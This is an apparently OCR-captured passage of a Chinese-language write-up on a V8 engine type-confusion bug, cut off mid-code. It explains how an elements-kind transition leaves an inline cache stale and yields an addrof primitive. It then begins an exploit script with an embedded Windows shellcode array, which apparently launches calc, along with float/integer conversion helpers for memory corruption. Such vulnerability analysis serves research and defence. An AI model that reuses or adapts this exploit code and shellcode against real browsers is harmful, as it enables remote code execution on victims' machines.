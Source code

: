 ```
为此功能进行优化，并实现快速元素访问（Evil仅保存unboxed编号的属性）。

for(var i = 0;i<0x50000;i++){
    read_as_unboxed();
}
// 触发evil的元素种类变化。由于change_elements_kind是通过
//元素类型过渡进行优化的，因此evil的映射将仅更改以反映新的元素类型。
change_elements_kind(evil);
//调用read_as_unboxed。它仍然是M2，因此不会发生高速缓存未命中，并且是
执行了优化的版本。但是，该版本假定elements数组中的值unboxed，因此Array构造函数指针（存储在change_elements_kind中的位置0）将作为双精度值返回。
alert(read_as_unboxed());
</script>
```

总结来说就是：
- 当对诸如上面的change_elements_kind这样的函数进行优化时，由于该函数只改变了elements的类型，而没有改变属性，所以在缓存未命中时，它将会寻找最合适的未弃用的map，并通过该map创建一个Element kind transitions。（这么做的原因是：Element kind transitions对于该情况来说只要改变Elementkind bit位即可完成重新优化，如果没有他去重新生成新的map将会是一个非常浪费资源的操作）。
- 但是当对一个stable map的object进行上面提到的优化时，将会出现问题，它只会对当前优化的函数做Element kind的更改。
- 我们回到代码：通过优化change_elements_kind(x);生成了一个Element kind transitions并且将其Element kind做了改变，接着对read_as_unboxed();进行优化，因为它仍是M2，所以此处并不会发生缓存命中失败，在此处将会通过保存偏移实现元素快速访问（也就是内联缓存），并且change_elements_kind(x)优化时的对Element kind的修改并没有影响到read_as_unboxed()，所以它的内联缓存保存的将是unboxed的属性。
- 这样的话接着去执行最后两行的代码，change_elements_kind(evil);改变evil[0]，但是read_as_unboxed时通过缓存快速获得元素，将会以double的形式返回，这样就得到了类型混淆的addrof原语。


补充一个：

- elements kind transition不同于一般的map类型的转换，他不会导致缓存丢失
- Element kind transitions对于该情况来说只要改变Elementkind bit位即可完成重新优化，而不需要去重新生成一个新的map。

### exp

```
<script>
var shellcode = [0xe48348fc,0x00c0e8f0,0x51410000,0x51525041,0xd2314856,0x528b4865,0x528b4860,0x528b4818,0x728b4820,0xb70f4850,0x314d4a4a,0xc03148c9,0x7c613cac,0x41202c02,0x410dc9c1,0xede2c101,0x48514152,0x8b20528b,0x01483c42,0x88808bd0,0x48000000,0x6774c085,0x50d00148,0x4418488b,0x4920408b,0x56e3d001,0x41c9ff48,0x4888348b,0x314dd601,0xc03148c9,0xc9c141ac,0xc101410d,0xf175e038,0x244c034c,0xd1394508,0x4458d875,0x4924408b,0x4166d001,0x44480c8b,0x491c408b,0x8b41d001,0x01488804,0x415841d0,0x5a595e58,0x59415841,0x83485a41,0x524120ec,0x4158e0ff,0x8b485a59,0xff57e912,0x485dffff,0x000001ba,0x00000000,0x8d8d4800,0x00000101,0x8b31ba41,0xd5ff876f,0xa2b5f0bb,0xa6ba4156,0xff9dbd95,0xc48348d5,0x7c063c28,0xe0fb800a,0x47bb0575,0x6a6f7213,0x89415900,0x63d5ffda,0x00636c61]
var arraybuffer = new ArrayBuffer(20);
flag = 0;
function gc(){
    for(var i=0;i<0x100000/0x10;i++){
        new String;
    }
}
function d2u(num1,num2){
    d = new Uint32Array(2);
    d[0] = num2;
    d[1] = num1;
    f = new Float64Array(d.buffer);
    return f[0];
}
function u2d(num){
    f = new Float64Array(1);
    f[0] = num;
    d = new Uint32Array(f.buffer);
    return d[1] * 0x100000000 + d[0];
}
function change_to_float(intarr,floatarr){
    var j = 0;
```